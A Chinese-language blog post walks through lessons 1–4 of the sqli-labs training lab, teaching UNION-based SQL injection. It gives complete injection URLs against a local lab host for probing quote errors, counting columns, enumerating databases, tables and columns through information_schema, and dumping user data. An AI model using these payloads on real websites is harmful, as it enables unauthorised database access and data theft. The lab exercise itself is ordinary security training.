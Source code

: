 ```yaml
---
id: 590
layout: post
title: 'sqli lab 1 - union 注入，入门'
date: 2015-12-02 20:24:00
author: virusdefender
tags: 
---
```


基于 [sqli labs][1]，下载后自行安装。

Lesson 1
--------

基础知识
 - mysql中可能有用的函数: database(), user(), version(), @@version_compile_os, concat(str1, str2, ...), md5(str), mid(column_name,start[,length])
 - union 查询知识
  - union 用于合并两个或多个 select 语句的结果集，并消去表中任何重复行。union 内部的 select 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，每条 select 语句中的列的顺序必须相同。
  - union 默认会去掉重复记录值再合并成结果集，如果需要保留重复的记录值，请使用 union all。
  - union 结果集中的列名总是等于 union 中第一个 select 语句中的列名。

 1. `http://172.16.61.132/sqli-labs/Less-1/?id=1'`报错，错误信息是`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`，最外层的单引号是字符串的，去掉后 sql 语句就是`'1'' LIMIT 0,1`，可以看出 id字段是字符型的。

 2. `http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, user(), version() --+
`得到用户和 MySQL 版本。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, database(), 3 --+`得知当前数据库名字是 security。其实还可以合并到一起的，`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, 2, concat(user(),database(),version()) --+`

 3. 查看字段数量，在 url 上继续拼接 `order by` 语句。`http://172.16.61.132/sqli-labs/Less-1/?id=1' order by 3 --+`的时候正常，order by 4的时候报错了，说明有三个字段。

 4. `information_schema.schemata`这张表中有所有数据库的列表，`information.tables`有数据库中所有表的名字。通过`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 2 from information_schema.schemata --+
`得到一共有6个数据库。

 5. schemata 这张表里面数据库字段名字就是 `field_name`，因为页面一次只能返回一条数据，我们需要逐条的去查询。
`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, schema_name, 3 from information_schema.schemata limit 1 offset {offset}--+`，将最后的 offset 从0遍历到5，就得到所有的数据库名字。

 6. 同理，`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 3 from information_schema.tables where table_schema='security'--+`得到 security 数据库中有四张表。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, table_name, 3 from information_schema.tables where table_schema='security' limit 1 offset {offset}--+`能获取 security 里面的所有表。

 7. `http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, count(*), 3 from information_schema.columns where table_name='users' and table_schema='security' --+`得到 users 表有三个字段，其实前面已经用 order by 得到了，这个地方是一种新方法。`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, column_name, 3 from information_schema.columns where table_name='users' and table_schema='security' limit 1 offset {offset}--+`得到三个字段的字段名，id, username, password。只是用来演示，其实这些数据都在页面上能看到。

 8. 前面我们已知有一张表是 security.email，然后可以使用`http://172.16.61.132/sqli-labs/Less-1/?id=10000' union select 1, email_id, 3 from security.emails --+`逐行的去获取数据了，也就是拖库。


Lesson 2
--------

访问`http://172.16.61.132/sqli-labs/Less-2/?id=1'`得到错误信息`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`，得知这次 id 是数字类型的，主要把 Lesson 1里面的那个单引号去掉就好了，其余的都不用改~

Lesson 3
--------
访问`http://172.16.61.132/sqli-labs/Less-3?id=1'`得到错误信息`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`，猜测大致的 sql 语句是`select * from users where id = ('$id')`，还是字符型，只是加了一个括号，将 Lesson 1 的代码稍加修改就好了。

Lesson 4
--------
发现单引号不报错了，而双引号会报错，按照 Lesson 1 修改 payloads 就好了。


  [1]: https://github.com/Audi-1/sqli-labs
